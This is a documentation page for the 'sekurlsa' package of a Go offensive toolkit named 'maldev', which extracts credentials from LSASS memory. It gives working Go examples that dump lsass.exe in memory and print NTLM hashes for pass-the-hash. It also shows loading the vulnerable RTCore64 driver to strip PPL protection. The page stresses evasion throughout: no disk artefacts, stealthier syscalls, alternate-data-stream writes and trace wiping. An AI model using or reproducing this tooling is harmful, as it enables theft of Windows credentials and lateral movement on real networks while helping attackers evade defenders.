

# LSASS Parsing — In-Process Credential Extraction

[← Credentials area README](README.md) · [docs/index](../../index.md)

**MITRE ATT&CK:** [T1003.001 — OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)
**Package:** `credentials/sekurlsa`
**Platform:** Cross-platform (pure Go)
**Detection:** Low — runs entirely in the implant's own address space, no Win32 calls

---

## Primer

`credentials/lsassdump` (the **producer**, see
[lsass-dump.md](../collection/lsass-dump.md)) captures lsass.exe's
memory into a MINIDUMP blob. To use the blob the operator
historically had to round-trip it through mimikatz on a different
host or pypykatz on a Linux analyst box — which means exfil-ing a
50 MB+ file, leaving it on disk somewhere, and depending on a Python
runtime + 50 MB of crypto deps for the analyst.

`credentials/sekurlsa` is the **consumer** — pure-Go MINIDUMP
parsing + in-process credential extraction, so the implant pipeline
becomes:

```text
PROCESS_VM_READ → MINIDUMP bytes (in-memory) → MSV1_0 hashes (in-memory) → wipe
```

No disk artefact. No exfil. No external dependency.

v1 (v0.23.0) extracts MSV1_0 NTLM hashes — the dominant pivot for
pass-the-hash workflows. WDigest plaintext, Kerberos tickets, and
DPAPI master keys are scoped follow-ups on top of v1's LSA-key
extraction layer.

---

## How It Works



The crypto layer mirrors `BCryptKeyDataBlobImport`'s logic: parse a
12-byte `BCRYPT_KEY_DATA_BLOB_HEADER` (magic `KDBM`, version 1,
cbKeyData), then import the trailing payload into `crypto/aes` (16
bytes) or `crypto/des` (24 bytes). The IV is plain bytes, no header.

CBC decryption picks the cipher by ciphertext alignment: 16-aligned
goes through AES, 8-aligned-but-not-16 goes through 3DES. Same
heuristic pypykatz uses.

---

## Simple Example

```go
package main

import (
    "fmt"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
)

func main() {
    result, err := sekurlsa.ParseFile(`C:\ProgramData\Intel\snapshot.dmp`)
    if err != nil {
        log.Fatal(err)
    }
    defer result.Wipe()

    fmt.Printf("Build %d %s — %d sessions\n",
        result.BuildNumber, result.Architecture, len(result.Sessions))

    for _, s := range result.Sessions {
        for _, c := range s.Credentials {
            if msv, ok := c.(sekurlsa.MSV1_0Credential); ok && msv.Found {
                fmt.Println(msv.String()) // pwdump format
            }
        }
    }
}
```

`Result.Wipe` overwrites every hash buffer in place after the
caller's loop — pair with `cleanup/memory.SecureZero` on any other
slice you held the hash bytes in.

---

## Advanced — registering a custom Template

When the dump's `BuildNumber` doesn't match a registered template,
`Parse` returns `(partial Result, ErrUnsupportedBuild)`. The partial
result still carries `BuildNumber` + `Architecture` + `Modules` so
the operator can detect the gap, register a template, and retry:

```go
package main

import (
    "errors"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
)

func init() {
    // Win11 24H2 (build 26100) — patterns derived offline from the
    // Microsoft-shipped lsasrv.dll for this CU. See README.md for
    // the workflow.
    _ = sekurlsa.RegisterTemplate(&sekurlsa.Template{
        BuildMin:                26100,
        BuildMax:                26100,
        IVPattern:               []byte{ /* operator-derived bytes */ },
        IVOffset:                0x3F,
        Key3DESPattern:          []byte{ /* … */ },
        Key3DESOffset:           -0x59,
        KeyAESPattern:           []byte{ /* … */ },
        KeyAESOffset:            0x10,
        LogonSessionListPattern: []byte{ /* … */ },
        LogonSessionListOffset:  0x17,
        LogonSessionListCount:   64,
        MSVLayout: sekurlsa.MSVLayout{
            NodeSize:          0x110,
            LUIDOffset:        0x10,
            UserNameOffset:    0x90,
            LogonDomainOffset: 0xA0,
            LogonServerOffset: 0xB0,
            LogonTypeOffset:   0xC8,
            CredentialsOffset: 0xD8,
        },
    })
}

func main() {
    result, err := sekurlsa.ParseFile("snapshot.dmp")
    switch {
    case errors.Is(err, sekurlsa.ErrUnsupportedBuild):
        log.Fatalf("build %d not covered; register a template", result.BuildNumber)
    case errors.Is(err, sekurlsa.ErrLSASRVNotFound):
        log.Fatal("dump missing lsasrv.dll module — wrong process?")
    case err != nil:
        log.Fatal(err)
    }
    defer result.Wipe()
    log.Printf("extracted %d sessions on build %d", len(result.Sessions), result.BuildNumber)
}
```

---

## Composed — Producer + Consumer in one process

The point of a pure-Go consumer: dump → extract → wipe without ever
touching disk or shipping a second binary to the operator.

```go
package main

import (
    "bytes"
    "fmt"
    "log"

    "github.com/oioio-space/maldev/credentials/sekurlsa"
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/cleanup/memory"
)

func main() {
    // 1. Open lsass.
    h, err := lsassdump.OpenLSASS(nil) // nil = standard WinAPI; pass a *wsyscall.Caller for stealthier syscalls
    if err != nil {
        log.Fatal(err)
    }
    defer lsassdump.CloseLSASS(h)

    // 2. Dump into an in-memory buffer.
    var buf bytes.Buffer
    if _, err := lsassdump.Dump(h, &buf, nil); err != nil {
        log.Fatal(err)
    }

    // 3. Parse the bytes still in memory.
    result, err := sekurlsa.Parse(bytes.NewReader(buf.Bytes()), int64(buf.Len()))
    if err != nil {
        log.Fatal(err)
    }
    defer result.Wipe()

    // 4. Use the credentials.
    for _, s := range result.Sessions {
        for _, c := range s.Credentials {
            if msv, ok := c.(sekurlsa.MSV1_0Credential); ok && msv.Found {
                fmt.Println(msv.String())
            }
        }
    }

    // 5. Wipe the dump bytes from the Go heap.
    memory.SecureZero(buf.Bytes())
}
```

Layered with PPL bypass via BYOVD when the lsass process is
RunAsPPL=1:

```go
import (
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/credentials/sekurlsa"
    "github.com/oioio-space/maldev/kernel/driver/rtcore64"
)

// 1. Bring up RTCore64 driver.
var d rtcore64.Driver
if err := d.Install(); err != nil { panic(err) }
defer d.Uninstall()

// 2. EPROCESS unprotect lsass — caller resolves the EPROCESS via
//    an upstream walk (see lsass-dump.md).
tok, _ := lsassdump.Unprotect(&d, lsassEProcess, lsassdump.PPLOffsetTable{
    Build: 19045, ProtectionOffset: 0x87A,
})
defer lsassdump.Reprotect(tok, &d)

// 3. Open + Dump + Parse — same as above. With PS_PROTECTION zeroed,
//    the userland NtOpenProcess(VM_READ) succeeds.
```

---

## Limitations

- **Templates required.** v1 ships the framework; per-build templates
  ship under any license as community contributions verified against
  real dumps. The `RegisterTemplate(t)` opt-in lets operators ship
  their own without forking.
- **MSV1_0 only.** WDigest, Kerberos, DPAPI, LiveSSP / TSPkg / CloudAP
  are each their own follow-up chantier on top of v1's crypto layer.
- **x64 only.** WoW64 32-bit dumps are vanishingly rare on modern
  Windows and not in v1 scope.
- **Credential Guard / LSAISO sessions** appear in the list but the
  payloads are kernel-isolated ciphertext — surfaced as
  `Result.Warnings`, not fatal errors.
- **No live-process attach.** A `mimikatz!sekurlsa`-style direct
  attach to lsass is a separate chantier (`credentials/lsalive`)
  that needs PPL bypass + much louder OPSEC. The dump-then-parse
  pipeline gives most of the value with a fraction of the noise.
- **`.kirbi` export composes via `stealthopen.Creator`.**
  `(*KerberosTicket).ToKirbiFile(dir)` lands the file via plain
  `os.Create`; pair with
  [`ToKirbiFileVia(creator, dir)`](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/sekurlsa#KerberosTicket.ToKirbiFileVia)
  to route the write through the operator's primitive
  (transactional NTFS, encrypted-stream wrapper, ADS, raw
  `NtCreateFile`). Same `[]byte` content; same filename.

---

## API Reference

Package: `github.com/oioio-space/maldev/credentials/sekurlsa`. The
parser consumes a MINIDUMP blob produced by `credentials/lsassdump`
(or any other lsass.exe dump source — mimikatz, procdump, comsvcs.dll
MiniDump). All decryption is offline and cross-platform.

### Types

#### `type Architecture int` + 3 constants + `(Architecture).String() string`

- godoc: closed-set enum for the LSASS dump's processor architecture.
- Description: `ArchUnknown = iota` (0), `ArchX86` (1), `ArchX64` (2). v1 only ships x64 walkers — x86/WoW64 dumps return `(*Result, ErrUnsupportedBuild)` with the partial Result populated for diagnostics. `String()` returns `"x86"`, `"x64"`, or `"unknown"`.
- Side effects: pure data + pure switch.
- OPSEC: silent.
- Required privileges: none.
- Platform: cross-platform.

#### `type LogonType uint32` + 9 constants + `(LogonType).String() string`

- godoc: mirrors the Windows `LOGON_TYPE` enum from `winnt.h`.
- Description: constants `LogonTypeInteractive (2)`, `Network (3)`, `Batch (4)`, `Service (5)`, `Unlock (7)`, `NetworkClearText (8)`, `NewCredentials (9)`, `RemoteInteractive (10)`, `CachedInteractive (11)`, plus `Unknown (0)`. `String()` returns the LOGON32_LOGON_* friendly name (matches Security event log analyst-facing labels), with `LogonType(N)` fallback for unknown values.
- Side effects: pure data + pure switch.
- OPSEC: silent.
- Required privileges: none.
- Platform: cross-platform.

#### `type Credential interface { AuthPackage() string }`

- godoc: typed payload for a single logon session. Every shipped provider implements it (MSV / Wdigest / DPAPI / Kerberos / TSPkg / CredMan / CloudAP / LiveSSP).
- Description: `AuthPackage()` returns the auth-package name string. The interface also has an unexported `wipe()` method — only the sekurlsa package can add Credential implementations, which keeps the wipe contract enforceable at compile time without exposing it externally. Pointer-receiver only: every concrete `Credential` is constructed as `&XxxCredential{...}` because `wipe()` mutates buffers in place.
- Side effects: pure interface.
- OPSEC: the per-credential `wipe()` zeroizes hash bytes / plaintext / PRT / master keys before the Result is GC'd — call `Result.Wipe()` to invoke it across every session.
- Required privileges: none.
- Platform: cross-platform.

#### `type LogonSession struct`

- godoc: aggregates everything the parser knows about a single active session.
- Description: fields — `LUID uint64`, `LogonType`, `UserName string`, `LogonDomain string`, `LogonServer string`, `LogonTime time.Time`, `SID string`, `Credentials []Credential`, `MSVNodeVA uint64` (source-process VA of the MSV LIST_ENTRY node — zero on non-minidump-backed paths). The schema mirrors what pypykatz emits as JSON so external tools consume our output via the same shape.
- Side effects: pure data.
- OPSEC: `Credentials` may carry plaintext if Wdigest was enabled (Win7-) or the host is an RDP gateway (TSPkg) — handle accordingly.
- Required privileges: none (data).
- Platform: cross-platform.

#### `type Result struct` + `(*Result).Wipe()`

- godoc: aggregate parse output — `BuildNumber uint32`, `Architecture`, `Modules []Module`, `Sessions []LogonSession`, `Warnings []string`.
- Description: `Warnings` accumulates non-fatal per-session decryption failures so a single corrupt session does not abort the whole walk. The unexported `lsaKey *lsaKey` field is retained so the in-package PTH chantier can re-encrypt mutated credential blobs with the same keys — `Wipe` does NOT zeroize the keys (the cipher.Block objects hold them internally and are non-mutable). `Wipe()` overwrites every Credential's sensitive byte buffers with zeros. Nil-receiver safe.
- Parameters: `Wipe` takes the receiver.
- Returns: nothing.
- Side effects: zeroizes all hash/plaintext/PRT/master-key bytes inside every Credential of every Session.
- OPSEC: callers holding a Result longer than the immediate decode-and-format cycle should `defer r.Wipe()` to limit post-extract in-memory exposure window.
- Required privileges: none.
- Platform: cross-platform.

#### Sentinel errors

```go
ErrNotMinidump        // dump signature is not "MDMP" — caller fed a non-dump blob
ErrUnsupportedBuild   // BuildNumber has no registered Template — partial Result returned for diagnostics
ErrLSASRVNotFound     // lsasrv.dll module not present in the dump's MODULE_LIST_STREAM
ErrMSV1_0NotFound     // msv1_0.dll module not present
ErrKeyExtractFailed   // lsasrv h3DesKey/hAesKey extraction failed — keys are mandatory for any decryption
```

All `errors.Is`-dispatchable. `ErrUnsupportedBuild` is the
"register a template and retry" signal — the partial Result still
carries `BuildNumber + Architecture + Modules` so the caller knows
what to register.

### Producers

#### `Parse(reader io.ReaderAt, size int64) (*Result, error)`

- godoc: extract credentials from a MINIDUMP blob.
- Description: reads MDMP header + stream directory, validates the dump signature, walks `SystemInfoStream` for build/arch, walks `ModuleListStream` for lsasrv/msv1_0/etc bases, then for each registered template walks the AVL trees (or LIST_ENTRY chains) inside lsasrv/msv1_0/wdigest/etc. and decodes per-session credentials. Decrypts via lsasrv's h3DesKey + hAesKey. Per-session decryption failures land in `Result.Warnings` rather than aborting.
- Parameters: `reader` random-access reader over the dump bytes; `size` total dump length used to validate stream-descriptor offsets before dereferencing.
- Returns: typed `*Result`. Successful x64 dump from a registered build returns `(*Result, nil)`. Unsupported build returns `(*Result-with-partial-info, ErrUnsupportedBuild)`. Non-MDMP blob returns `(nil, ErrNotMinidump)`.
- Side effects: allocates per-session credential structs. No I/O beyond the reader.
- OPSEC: completely offline — the parse runs anywhere with no network or kernel touch points. The OPSEC concern is **how the dump bytes were acquired** (see lsassdump.md).
- Required privileges: none for the parse.
- Platform: cross-platform — pure-Go pipeline analyses Windows dumps from a Linux/Mac analyst host.

#### `ParseFile(path string, opener stealthopen.Opener) (*Result, error)`

- godoc: convenience — open `path` (via the operator-supplied `stealthopen.Opener` if non-nil, else `os.Open`), `os.Stat` for the size, then `Parse`.
- Description: nil opener falls back to `os.Open` (identical to `Parse` after a read). Non-nil routes through transactional NTFS, encrypted-file decryption, ADS sinks, or any operator-controlled read primitive. The opener returns an `io.ReaderAt` so streaming through arbitrary back-ends is supported.
- Parameters: `path` to the dump on disk; `opener` strategy (nil = standard).
- Returns: same shape as `Parse`.
- Side effects: opens + reads `path`. The opener strategy controls everything beyond that.
- OPSEC: read-only file access. The OPSEC concerns belong to the chosen `Opener` strategy — `stealthopen.md` enumerates the trade-offs per strategy.
- Required privileges: read on `path`.
- Platform: cross-platform.

## See also

- [Credentials area README](README.md)
- [`credentials/lsassdump`](lsassdump.md) — producer counterpart (dump LSASS so this parser has bytes to chew)
- [`credentials/goldenticket`](goldenticket.md) — feed the extracted krbtgt hash directly into Forge
